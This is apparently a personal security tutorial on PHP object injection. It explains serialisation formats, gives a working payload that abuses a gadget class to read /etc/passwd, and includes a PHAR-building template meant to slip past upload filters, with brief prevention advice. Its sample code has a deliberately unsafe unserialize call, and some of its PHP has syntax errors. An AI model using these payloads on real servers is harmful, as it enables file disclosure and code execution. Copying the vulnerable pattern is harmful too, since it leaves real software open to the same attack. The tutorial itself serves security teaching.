 # Introduction

PHP Object Injection is a type of an insecure deserialisation attack which can result in arbitrary code execution.

# Magic Methods

[[https://www.php.net/manual/en/language.oop5.magic.php|PHP Magic Methods]] are a set of reserved methods for PHP objects which can be defined and which are automatically invoked in certain situations. Whilst it is possible to achieve code execution entirely by using normal methods on objects, magic methods can make the process easier.

# Serialisation

PHP has functionally which allows arbitrary objects to be turned into strings and then later retrieved as objects from those same strings. This is achieved through the `serialize()` and `unserialize()` functions. When an adversary has control over the object which gets deserialised, they can manipulate the input in such a way to make the PHP script perform arbitrary actions.

```php
<?php
class User
{
	public $name;
	public $isAdmin;
}

$user = new User();
$user->name = "cr0mll";
$user->isAdmin = False;

echo serialize($user);
?>
```

![[res/Object Serialisation.png]]

The serialisation string follows the *type:data* paradigm and has the following structure:

|Type|Format|
|:---:|:----:|
|Boolean|`b:value`|
|Integer|`i:value`|
|Float|`d:value`|
|String|`s:length:"value"`|
|Array|`a:size:{values}`|
|Object|`O:name_length:"Class_name":number_of_properties:{properties}`|

# Deserialisation

Deserialisation is the inverse operation - the `unserialize()` function takes a string and converts it to a PHP object (or normal variable). When the string passed to `unserialize()` is user-controlled, an adversary can craft a custom string which will result in an object with values of the attacker's choice. When these values are later used by the PHP application, they can alter its behaviour. Take a look at the following example:

```php
<?php
class LoadFile
{
	public function __tostring()
	{
		return file_get_contents($this->filename);
	}
}

class User
{
	public $name;
	public $isAdmin;
}

$user = unserialize($_POST['user']);

if $user->isAdmin
{
	echo $user->name . " is an admin.\n"
}
else
{
	echo $user->name . " is not an admin.\n"
}
?>
```

In order to achieve arbitrary code execution, object injection relies on [[https://github.com/ambionics/phpggc|PHP Gadgets]] - pieces of code (typically classes) that the PHP script has access to. Usually, PHP code runs in some sort of a framework - when this is true, it is rather easy to find gadgets. Here, however, we do not have that luxury.

The `User` class is only a storage container - it has no functionality. On the other hand, the `LoadFile` class *can* do some stuff. It has the `__tostring` magic method defined and it returns the contents of the file with the provided filename. 

We can manipulate the `user` object. Therefore, it is possible to set its `name` to an object - namely a `LoadFile` object with the file name set to anything we like. When the server receives this malicious `user` with an embedded `LoadFile` object, it is going to attempt to turn it into a string when `echo` is called. The embedded `LoadFile` object has its `filename` set to `/etc/passwd` for example, and so `file_get_contents()` is going to read this file, return its contents as a string and echo will print them out for us. Here is the exploit code:

```php
<?php
class LoadFile
{
	public function __tostring()
	{
		return file_get_contents($this->filename);
	}
}

class User
{
	public $name;
	public $isAdmin;
}

$obj = new LoadFile();
$obj->filename = "/etc/passwd";

$user = new User();
$user->name = $obj;
$user->isAdmin = true;

echo serialize($user);
?>
```

When we run this, we get the following serialisation string for the malicious `user`:
```bash
O:4:"User":2:{s:4:"name";O:8:"LoadFile":1:{s:8:"filename";s:11:"/etc/passwd";}s:7:"isAdmin";b:1;}
```

If we send it in a post request to the server, it will retrieve `/etc/passwd` for us:

![[res/Object Injection Success.png]]

## Prevention
Never allow direct user control over the data passed to `unserialize()`.

# PHAR Files

PHAR is the PHP Archive format and can allow for object injection even when there is no direct `unserialize()` call - provided that there is a way to upload a file to the server. Phar archives require neither a specific extension nor a set of magic bytes for identification which makes them especially useful for bypassing file upload filters. 

The format of the archive is the following:
- Stub - must contain `<?php __HALT_COMPILER(); ?>`
- Manifest
- Metadata - contains the serialised data
- Contents - the archive contents
- Signature - for integrity verification

![[res/Phar Hex Dump.png]]

You would be quick to think that you can just inject code into the stub and it will be executed, but that is not the case. Where the stub really shines is the fact that it can contain anything before the `<?php __HALT_COMPILER(); ?>` part. This means that the stub can be used to imitate other file formats.

Under the hood, PHAR stores metadata in a PHP-serialised format which needs to be deserialised when PHP uses the archive. In order for this to happen, the server needs to access the archive using the `phar://` stream wrapper. It is for this reason that a way of uploading files to it is necessary.

## Generating the Payload
If you try generating a phar file using PHP, you will likely run into the following error:

![[res/Phar Generation Error.png]]

In this case, you will need to set `phar.readonly = Off` in your `/etc/php/<version>/cli/php.ini` file (this is not required on the server, only on your machine). Afterwards, you can use the following code to generate the phar file:

```php
<?php
$phar = new Phar("archive.phar"); # a .phar extension is required here but not when the archive is accessed using phar://
$phar->startBuffering();

$prefix = ...; # The data used for imitating another file format
$phar->setStub($prefix . "<?php __HALT_COMPILER(); ?>");

$payload = ...; # Object injection payload
$phar->setMetadata(serialize($payload));

$phar->addFromString("test.txt", "test"); # Optional
$phar->stopBuffering();
?>
```

The extension of the file can then be changed to anything. Subsequently, the file will need to be uploaded to the server. Once it is there, a way to make the server perform a file operation with `phar://<filename>` is required.

Additionally, there are a few caveats which need to be taken into account. The payload inside the object injection chain may only use the `__wakeup()` and `__destruct()` magic methods. Moreover, any file paths inside it must be absolute because phar files deal with context in a weird way when they are loaded.

## Prevention
The only way to completely prevent phar file abusing is to disable the `phar://` stream wrapper altogether:

```cpp
stream_wrapper_unregister('phar');
```